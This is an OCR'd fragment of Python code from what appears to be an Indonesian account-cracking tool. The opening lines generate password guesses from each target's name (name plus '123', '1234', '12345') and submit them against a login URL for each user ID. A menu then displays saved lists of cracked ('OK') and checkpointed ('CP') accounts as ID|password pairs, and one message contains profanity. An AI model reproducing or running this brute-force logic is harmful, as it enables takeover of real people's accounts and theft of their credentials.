                        else:
                           pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
            
def result():
	print(f'[1]. Hasil OK Anda ')
	print(f'[2]. Hasil CP Anda ')
	print('[3]. Kembali	')
	kz = input(f'\n<\> Pilih : ')
	if kz in ['2']:
		try:vin = os.listdir('CP')
		except FileNotFoundError:
			print('>> File Tidak Di Temukan ')
			time.sleep(3)
			file()
		if len(vin)==0:
			print('>> Anda Tidak Memiliki Hasil CP ')
			time.sleep(2)
			back()
		else:
			cih = 0
			lol = {}
			for isi in vin:
				try:hem = open('CP/'+isi,'r').readlines()
				except:continue
				cih+=1
				if cih<10:
					nom = ''+str(cih)
					lol.update({str(cih):str(isi)})
					lol.update({nom:str(isi)})
					print(f'>> %s. %s ( %s Idz )'%(nom,isi,len(hem)))
				else:
					lol.update({str(cih):str(isi)})
					print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]')
			geeh = input('\n>> Pilih : ')
			try:geh = lol[geeh]
			except KeyError:
				print('>> Pilih Yang Bener Kontol ')
				back()
			try:lin = open('CP/'+geh,'r').read().splitlines()
			except:
				print('>> File Tidak Di Temukan ')
				time.sleep(2)
				back()
			nocp=0
			for cpku in range(len(lin)):
				cpkuni=lin[nocp].split('|')
				print(f'>> {cpkuni[0]}|{cpkuni[1]}')
				nocp +=1
			print('')
			input(f'[ Klik Enter ]')
			file()
	elif kz in ['1']:
		try:vin = os.listdir('OK')
		except FileNotFoundError:
			print('>> File Tidak Di Temukan ')
			time.sleep(2)
			back()
		if len(vin)==0:
			print('>> Anda Tidak Mempunyai File OK ')
			time.sleep(2)
			back()